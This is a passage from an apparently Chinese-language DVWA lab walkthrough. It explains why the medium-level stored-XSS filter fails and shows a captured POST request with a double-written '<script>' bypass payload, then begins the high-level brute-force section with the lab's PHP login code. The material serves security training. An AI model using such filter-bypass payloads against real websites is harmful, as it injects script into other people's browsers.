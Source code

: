 strip_tags() 函数剥去字符串中的HTML、XML以及PHP的标签，但允许使用<b>标签。

addslashes() 函数返回在预定义字符（单引号、双引号、反斜杠、NULL）之前添加反斜杠的字符串。

可以看到，由于对message参数使用了htmlspecialchars函数进行编码，因此无法再通过message参数注入XSS代码，但是对于name参数，只是简单过滤了<script>字符串，仍然存在存储型的XSS。

name 参数中`<script>`转换为空格，虽然在前端做了处理，不能超过规定字符，那么通过抓包改包，双写`<script>`来实现xss,或者大小写实现xss

```
payload:
POST /vulnerabilities/xss_s/ HTTP/1.1
Host: 192.168.124.130
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 53
Connection: close
Referer: http://192.168.124.130/vulnerabilities/xss_s/
Cookie: PHPSESSID=covp1pifd04hv2he3f5lfl1875; security=medium
Upgrade-Insecure-Requests: 1

txtName=<sc<script>ript>alert('aaron')</script>&mtxMessage=test&btnSign=Sign+Guestbook
```

### High

#### BRUTE Force（爆库）

```php
<?php

if( isset( $_GET[ 'Login' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Sanitise username input
    $user = $_GET[ 'username' ];
    $user = stripslashes( $user );
    $user = mysql_real_escape_string( $user );

    // Sanitise password input
    $pass = $_GET[ 'password' ];
    $pass = stripslashes( $pass );
    $pass = mysql_real_escape_string( $pass );
    $pass = md5( $pass );

    // Check database
    $query  = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
    $result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' );

    if( $result && mysql_num_rows( $result ) == 1 ) {
        // Get users details
        $avatar = mysql_result( $result, 0, "avatar" );

        // Login successful
        echo "<p>Welcome to the password protected area {$user}</p>";
        echo "<img src=\"{$avatar}\" />";
    }
    else {
        // Login failed
        sleep( rand( 0, 3 ) );
        echo "<pre><br />Username and/or password incorrect.</pre>";
    }
```